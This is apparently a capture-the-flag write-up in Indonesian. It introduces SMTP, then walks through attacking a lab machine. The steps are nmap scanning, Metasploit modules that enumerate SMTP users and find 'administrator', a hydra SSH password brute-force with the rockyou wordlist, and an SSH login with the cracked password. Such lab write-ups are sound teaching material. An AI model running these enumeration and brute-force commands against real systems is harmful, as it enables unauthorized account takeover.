 # Understanding SMTP

SMTP atau Simple Mail Transfer Protocol, yang mana merupakan yang digunakan untuk menangani pengiriman email. Untuk mendukung layanan email, diperlukan pasangan protokol yang terdiri dari SMTP dan POP/IMAP. Bersama-sama mereka memungkinkan user untuk mengirim email keluar dan mengambil email masuk.

SMTP melakukan 3 fungsi basic:

1. memverifikasi siapa yang mengirim email lewat SMTP server
2. mengirimkan email keluar
3. jika email tidak dapat dikirimkan keluar maka akan dikirimkan kembali ke pengirim

kebanyakan orang akan bertemu dengan SMTP ketika akan konfiguraasi email baru di third-party email client seperti thunderbird, karena untuk konfigurasi email baru diperlukan konfigurasi server SMTP agar bisa mengirimkan email ke luar.

# Enumerating SMTP

lakukan enumerasi menggunakan nmap

```shell
sudo nmap -A -oN enumer
```

hasil di file enumer

```shell
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 62:a7:03:13:39:08:5a:07:80:1a:e5:27:ee:9b:22:5d (RSA)
|   256 89:d0:40:92:15:09:39:70:17:6e:c5:de:5b:59:ee:cb (ECDSA)
|_  256 56:7c:d0:c4:95:2b:77:dd:53:d6:e6:73:99:24:f6:86 (ED25519)
25/tcp open  smtp    Postfix smtpd
| ssl-cert: Subject: commonName=polosmtp
| Subject Alternative Name: DNS:polosmtp
| Not valid before: 2020-04-22T18:38:06
|_Not valid after:  2030-04-20T18:38:06
|_ssl-date: TLS randomness does not represent time
|_smtp-commands: polosmtp.home, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
...
```

terdapat 2 port terbuka yaitu SSH dan SMTP. setelah melakukan enumerasi port, karena target pertama adalah SMTP, maka kita dapat melakukan enumerasi server SMTP secara detail menggunakan metasploit. cari modul 'smtp_version', dan gunakan modul tersebut di msfconsole dengan cara

```shell
search smtp_version
-> (auxiliary/scanner/smtp/smtp_version)

use auxiliary/scanner/smtp/smtp_version
```

selanjutnya kita konfigurasi yang diperlukan dengan gunakan command `show options`. untuk enumerasi server SMTP ini kita hanya perlu mengganti RHOSTS dengan cara `set RHOSTS <IP target>` nantinya akan menghasilkan output

```shell
[+] 10.10.97.137:25       - 10.10.97.137:25 SMTP 220 polosmtp.home ESMTP Postfix (Ubuntu)\x0d\x0a
[*] 10.10.97.137:25       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Nama dari system mail adalah `polosmtp.home`, dan Mail Transfer Agent (MTA) yang berjalan di service SMTP server ini adalah `Postfix`.

selanjutnya kita akan melakukan enumerasi username yang ada di server tersebut menggunakan metasploit lagi. lakukan `search smtp_enum`, lalu pilih `auxiliary/scanner/smtp/smtp_enum`. Setelah itu atur konfigurasi untuk serangan dengan mengatur RHOSTS ke IP target, dan USER_FILE atau wordlists untuk bruteforce username dengan `/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt` setelah itu jalankan exploit. hasilnya seperti berikut

```shell
[*] 10.10.97.137:25       - 10.10.97.137:25 Banner: 220 polosmtp.home ESMTP Postfix (Ubuntu)
[+] 10.10.97.137:25       - 10.10.97.137:25 Users found: administrator
[*] 10.10.97.137:25       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

kita dapatkan username '**administrator**'.

# Exploiting SMTP

dari enumerasi port, kita tahu bahwa ada port ssh yang terbuka selain SMTP, maka kita dapat coba untuk bruteforce ssh dengan informasi yang telah kita dapatkan. Jangan lupa untuk close `msfconsole` sebelum lanjut menggunakan `hydra`. Jika sudah kita akan bruteforce menggunakan `hydra` pada ssh dengan cara

```shell
hydra -t 8 -l administrator -P /usr/share/wordlists/rockyou.txt -vV <IP target> ssh
```

- `-t 8` : jumlah task yang dijalankan dalam proses
- `-l administrator` : storing username
- `-P /usr/share/wordlists/rockyou.txt` : path to password wordslist
- `-vV` : verbosity (optional)
- `ssh` : service to bruteforce

hasilnya adalah seperti berikut

```shell
...
[22][ssh] host: 10.10.97.137   login: administrator   password: alejandro
[STATUS] attack finished for 10.10.97.137 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
...
```

setelah kita dapat password, maka kita bisa masuk ke ssh dengan cara

```shell
ssh administrator@<IP target> -p 22

input password: alejandro
```

setelah masuk ke ssh, kita dapat mencari flagnya seperti biasa.
